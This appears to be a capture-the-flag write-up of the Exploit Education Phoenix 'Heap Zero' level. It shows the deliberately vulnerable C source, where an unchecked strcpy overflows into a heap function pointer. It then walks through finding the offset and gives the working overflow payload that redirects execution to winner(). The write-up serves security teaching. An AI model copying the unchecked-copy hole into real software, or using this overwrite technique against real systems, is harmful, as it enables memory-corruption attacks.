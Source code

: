 ```yaml
---
title: "Heap Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

To learn more about heap exploitation, see the references at the end.

We will work with the **32bit** binaries for the heap levels because the **64bit** binaries have some addresses issues.

This code allocates two memory chunks and stores them in **d** and **f** so **f** is after **d** in the heap, then it uses **strcpy** to copy **argv[1]** to **d->name** but with out size checking, a classic overflow.

So if our input is large enough we can overwrite the value of **f->fp** to point to **winner** function.

Let's run the program:

```
$ /opt/phoenix/i486/heap-zero AAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten
```

The offset between **data** and **fp** = 0xf7e69050 - 0xf7e69008 = 72 bytes.

Lets't get the address of winner function:

```
$ objdump -t /opt/phoenix/i486/heap-zero | grep winner
0804884e g     F .text	00000019 nowinner
08048835 g     F .text	00000019 winner
```

**winner** function is at  **0x08048835**.

# Solution:

```
$ /opt/phoenix/i486/heap-zero $(python -c "print 'A'*72 + '\x35\x88\x04\x08'")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

#### References:

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)